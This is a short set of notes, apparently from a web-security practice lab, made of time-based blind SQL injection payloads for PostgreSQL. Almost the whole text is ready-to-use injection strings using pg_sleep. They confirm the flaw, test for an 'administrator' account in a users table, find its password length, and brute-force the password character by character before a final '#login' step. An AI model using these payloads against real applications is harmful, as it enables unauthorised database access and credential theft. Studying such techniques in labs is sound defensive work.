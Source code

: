 #verify that the db sleeps
x';SELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
x';SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

#verify is administrator exists in table users
x';SELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+from+users--

#check administrator password lenght
x';SELECT+CASE+WHEN+(username='administrator'+and+length(password)=§0§)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+from+users--

#bruteforce the administrator password
x';SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)<'a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+from+users--

#login
